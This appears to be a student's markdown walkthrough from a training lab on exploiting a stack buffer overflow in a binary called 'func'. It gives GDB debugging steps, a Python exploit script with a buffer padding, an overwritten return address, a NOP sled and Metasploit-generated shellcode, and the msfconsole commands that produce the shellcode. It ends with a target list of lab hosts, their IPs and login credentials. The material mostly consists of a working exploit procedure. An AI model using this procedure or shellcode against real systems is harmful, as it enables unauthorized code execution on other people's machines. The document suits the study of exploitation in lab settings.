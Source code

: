     https://wiremask.eu/tools/buffer-overflow-pattern-generator/
_____________________________________________________________________________________________________________________
### Run GDB against the program you want to view
#### The disass command to see what the code is performing and the memory spaces
    gdb func
    disass getuserinput                               #This was a function found in the script.
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)                     #The name of the script is test.py
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
### ->T1: 192.168.28.111
### ->T2: 192.168.28.105

## >Jump Box
### ->donovian_grey_host
#### -->T3: 192.168.150.245

#### Target Section:

## T1
### Hostname: Donovian_Webserver
#### IP: 192.168.28.111
#### OS: CentOS
#### Creds: comrade :: StudentWebExploitPassword
#### Last Known SSH Port: 2222
#### Action: Exploit binary.

## T2
### Hostname: Donovian-Terminal
#### IP: 192.168.28.105
#### OS: unknown
#### Creds: comrade :: StudentReconPassword
#### Last Known SSH Port: 2222

## T3
### Hostname: unknown
#### IP: 192.168.150.245
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### PSP: Unknown
#### Malware: Unknown
#### Action: Exploit a network service on the machine
